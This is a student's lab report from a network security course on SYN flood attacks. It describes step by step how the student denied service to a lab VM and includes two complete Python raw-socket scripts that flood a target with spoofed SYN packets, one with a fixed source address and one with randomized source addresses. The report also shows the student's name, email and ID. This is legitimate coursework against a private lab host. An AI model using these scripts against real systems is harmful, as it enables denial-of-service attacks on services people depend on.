

# Lab 5 - Playing with SYN Flood

### Team Members:
1. Adam Robertson, abr5598@psu.edu, 938152440

## Drills
There are five tasks for you to complete. Please give a brief summary of what you did – feel free to include any thoughts / concerns / problems / etc. you encountered during the tasks. Also, include your answers to the questions asked in each task. Save your report as a PDF and submit it to Canvas before the deadline.


## Task 

### Task: Summary


### Task: Question Answers

> 1. Describe your attack step by step in the report.
> 
> First, I tried just by sending syn packets with one script with a spoofed source of "192.168.150.100" to the victim. The webserver continued to work.

> I then changed the IPv4 settings to stop using syn cookies, to retransmitt packets more, and reduced the TCP queue. I then ran the script again. The victim recorded getting these packets every 20-50 ns. The web server hosted on the victim continued to work. 
>
> Next I tried using three scripts each flooding with syn packets. Using wireshark on the victim recorded closer to 20-30 ns between packets.
>
> I then changed the script to randomize the spoofed IP address for every packet. (Between 192.168.150.0-255) Now, using wireshark on the victim machine reported similar rates of syn packets, however, now the vicitm is trying to acknowledge.
> 
> Changed the script to randomize the entire address. Simliar rates were observed with 3 scripts. However, now wireshark isn't indicating that a port is being reused.

> I just realized that I wasn't attacking the correct port... I was send syn packets to port 80. Now, using a single script, without random source IPs, is enough to deny service.
>
> Now, using netstat -atn on the victim vm, we can see that multiple open tcp connections are waiting for an ACK. Interestingly, connections are still open waiting on random IPs since I ran the script with random IPs at port 8000.

> I restarted the victim to clear the open TCP connections, and ran a single script with no randomization. It didn't work this time. I realized I probably have to change the IPv4 settings again. However, it still didn't work.

> Runing two scripts with random source IPs was able to deny service. Interestingly, after doing this, running a single script with no random IPs was able to deny service. I believe this is because after so many possible connections from every IP address, the victim can't determine if this is a repeated packet very well.

> 2. Include screenshots for each *major* step (e.g., wireshark, half-opened connections, etc.).





> 3. Include the attacking script.
> # No Random Script
> ``` python
>'''
>    Syn flood program in python using raw sockets (Linux)
>'''
>
># some imports
>import socket, sys, random
>from struct import *
>
># checksum functions needed for calculation checksum
>def checksum(msg):
>    s = 0
>    # loop taking 2 characters at a time
>    for i in range(0, len(msg), 2):
>        w = (msg[i] << 8) + (msg[i+1])
>        s = s + w
>    
>    s = (s>>16) + (s & 0xffff);
>    #s = s + (s >> 16);
>    #complement and mask to 4 byte short
>    s = ~s & 0xffff
>    
>    return s
>
>#create a raw socket
>try:
>    s = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_TCP)
>except socket.error as msg:
>    print('Socket could not be created. Error Code : ' + str(msg[0]) + ' Message ' + msg[1])
>    sys.exit()
>
># tell kernel not to put in headers, since we are providing it
>s.setsockopt(socket.IPPROTO_IP, socket.IP_HDRINCL, 1)
>    
>
># now start constructing the packet
>packet = ''
>
>source_ip = '192.168.150.100'
>dest_ip = '192.168.150.130'	# or socket.gethostbyname('www.google.com')
>
># ip header fields
>ihl = 5
>version = 4
>tos = 0
>tot_len = 20 + 20	# python seems to correctly fill the total length, dont know how ??
>id = 54321	#Id of this packet
>frag_off = 0
>ttl = 255
>protocol = socket.IPPROTO_TCP
>check = 10	# python seems to correctly fill the checksum
>saddr = socket.inet_aton ( source_ip )	#Spoof the source ip address if you want to
>daddr = socket.inet_aton ( dest_ip )
>
>ihl_version = (version << 4) + ihl
>
># the ! in the pack format string means network order
>ip_header = pack('!BBHHHBBH4s4s' , ihl_version, tos, tot_len, id, frag_off, ttl, protocol, check, saddr, daddr)
>
># tcp header fields
>source = 1234	# source port
>dest = 8000	# destination port
>seq = 0
>ack_seq = 0
>doff = 5	#4 bit field, size of tcp header, 5 * 4 = 20 bytes
>#tcp flags
>fin = 0
>syn = 1
>rst = 0
>psh = 0
>ack = 0
>urg = 0
>window = socket.htons (5840)	#	maximum allowed window size
>check = 0
>urg_ptr = 0
>
>offset_res = (doff << 4) + 0
>tcp_flags = fin + (syn << 1) + (rst << 2) + (psh <<3) + (ack << 4) + (urg << 5)
>
># the ! in the pack format string means network order
>tcp_header = pack('!HHLLBBHHH' , source, dest, seq, ack_seq, offset_res, tcp_flags,  window, check, urg_ptr)
>
># pseudo header fields
>source_address = socket.inet_aton( source_ip )
>dest_address = socket.inet_aton(dest_ip)
>placeholder = 0
>protocol = socket.IPPROTO_TCP
>tcp_length = len(tcp_header)
>
>psh = pack('!4s4sBBH' , source_address , dest_address , placeholder , protocol , tcp_length);
>psh = psh + tcp_header;
>
>tcp_checksum = checksum(psh)
>
># make the tcp header again and fill the correct checksum
>tcp_header = pack('!HHLLBBHHH' , source, dest, seq, ack_seq, offset_res, tcp_flags,  window, tcp_checksum , urg_ptr)
>
># final full packet - syn packets dont have any data
>packet = ip_header + tcp_header
>
>#Send the packet finally - the port specified has no effect
>
>while True:
>    s.sendto(packet, (dest_ip , 0 ))	# put this in a loop if you want to flood the target
>
>#put the above line in a loop like while 1: if you want to flood
> ```
>
> # Random Script
> ``` python
>'''
>	Syn flood program in python using raw sockets (Linux)
>'''
>
># some imports
>import socket, sys, random
>from struct import *
>
># checksum functions needed for calculation checksum
>def checksum(msg):
>	s = 0
>	# loop taking 2 characters at a time
>	for i in range(0, len(msg), 2):
>		w = (msg[i] << 8) + (msg[i+1])
>		s = s + w
>	
>	s = (s>>16) + (s & 0xffff);
>	#s = s + (s >> 16);
>	#complement and mask to 4 byte short
>	s = ~s & 0xffff
>	
>	return s
>
>#create a raw socket
>try:
>	s = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_TCP)
>except socket.error as msg:
>	print('Socket could not be created. Error Code : ' + str(msg[0]) + ' Message ' + msg[1])
>	sys.exit()
>
># tell kernel not to put in headers, since we are providing it
>s.setsockopt(socket.IPPROTO_IP, socket.IP_HDRINCL, 1)
>	
>while True:
>	# now start constructing the packet
>	packet = ''
>
>	source_ip = str(random.randint(0,255)) + '.' + str(random.randint(0,255)) + '.' + str(random.randint(0,255)) + '.' + str(random.randint(0,>255))
>	dest_ip = '192.168.150.130'	# or socket.gethostbyname('www.google.com')
>	
>	# ip header fields
>	ihl = 5
>	version = 4
>	tos = 0
>	tot_len = 20 + 20	# python seems to correctly fill the total length, dont know how ??
>	id = 54321	#Id of this packet
>	frag_off = 0
>	ttl = 255
>	protocol = socket.IPPROTO_TCP
>	check = 10	# python seems to correctly fill the checksum
>	saddr = socket.inet_aton ( source_ip )	#Spoof the source ip address if you want to
>	daddr = socket.inet_aton ( dest_ip )
>
>	ihl_version = (version << 4) + ihl
>
>	# the ! in the pack format string means network order
>	ip_header = pack('!BBHHHBBH4s4s' , ihl_version, tos, tot_len, id, frag_off, ttl, protocol, check, saddr, daddr)
>
>	# tcp header fields
>	source = 1234	# source port
>	dest = 8000	# destination port
>	seq = 0
>	ack_seq = 0
>	doff = 5	#4 bit field, size of tcp header, 5 * 4 = 20 bytes
>	#tcp flags
>	fin = 0
>	syn = 1
>	rst = 0
>	psh = 0
>	ack = 0
>	urg = 0
>	window = socket.htons (5840)	#	maximum allowed window size
>	check = 0
>	urg_ptr = 0
>
>	offset_res = (doff << 4) + 0
>	tcp_flags = fin + (syn << 1) + (rst << 2) + (psh <<3) + (ack << 4) + (urg << 5)
>
>	# the ! in the pack format string means network order
>	tcp_header = pack('!HHLLBBHHH' , source, dest, seq, ack_seq, offset_res, tcp_flags,  window, check, urg_ptr)
>
>	# pseudo header fields
>	source_address = socket.inet_aton( source_ip )
>	dest_address = socket.inet_aton(dest_ip)
>	placeholder = 0
>	protocol = socket.IPPROTO_TCP
>	tcp_length = len(tcp_header)
>
>	psh = pack('!4s4sBBH' , source_address , dest_address , placeholder , protocol , tcp_length);
>	psh = psh + tcp_header;
>
>	tcp_checksum = checksum(psh)
>
>	# make the tcp header again and fill the correct checksum
>	tcp_header = pack('!HHLLBBHHH' , source, dest, seq, ack_seq, offset_res, tcp_flags,  window, tcp_checksum , urg_ptr)
>
>	# final full packet - syn packets dont have any data
>	packet = ip_header + tcp_header
>
>	#Send the packet finally - the port specified has no effect
>
>	s.sendto(packet, (dest_ip , 0 ))	# put this in a loop if you want to flood the target
>
>#put the above line in a loop like while 1: if you want to flood
>
> ```